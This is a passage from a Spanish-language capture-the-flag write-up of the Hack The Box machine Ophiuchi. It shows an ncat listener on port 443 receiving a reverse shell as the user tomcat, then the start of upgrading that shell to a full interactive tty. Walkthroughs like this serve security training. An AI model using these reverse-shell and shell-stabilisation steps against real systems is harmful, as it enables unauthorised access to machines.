 ```bash
❯ ncat -nlvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
```
Enviamos la peticion:

![](/assets/images/HTB/htb-writeup-Ophiuchi/web6.PNG)

y estamos dentro como el usuario `tomcat`:

![](/assets/images/HTB/htb-writeup-Ophiuchi/web7.PNG)

Como siempre vamos a realizar el tratamiento de la `tty` para obtener una full interactiva.

```bash
❯ ncat -nlvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.227.
Ncat: Connection from 10.10.10.227:56610.
bash: cannot set terminal process group (796): Inappropriate ioctl for device
bash: no job control in this shell
tomcat@ophiuchi:/$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
tomcat@ophiuchi:/$ ^Z
zsh: suspended  ncat -nlvp 443
```